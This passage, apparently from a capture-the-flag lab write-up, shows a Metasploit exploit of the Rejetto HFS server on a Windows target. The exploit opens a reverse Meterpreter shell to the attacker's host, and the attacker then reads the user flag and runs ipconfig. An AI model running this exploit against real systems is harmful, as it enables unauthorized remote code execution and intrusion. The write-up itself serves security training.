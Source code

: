 ```bash

Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.109.201
rhosts => 10.10.109.201
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8080
rport => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.30.38:4444 
[*] Using URL: http://10.10.30.38:8080/Rjy6EBr38Okww
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /Rjy6EBr38Okww
[*] Sending stage (177734 bytes) to 10.10.109.201
[!] Tried to delete %TEMP%\jRNniopprkRtO.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.30.38:4444 -> 10.10.109.201:49268) at 2025-02-25 12:17:33 +0000
[*] Server stopped.

meterpreter > shell
Process 780 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```bash
C:\Users\bill\Desktop>type user.txt
type user.txt
<redacted>

C:\Users\bill\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::154e:3c85:c145:2be1%14
   IPv4 Address. . . . . . . . . . . : 10.10.109.201
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

Tunnel adapter isatap.eu-west-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
```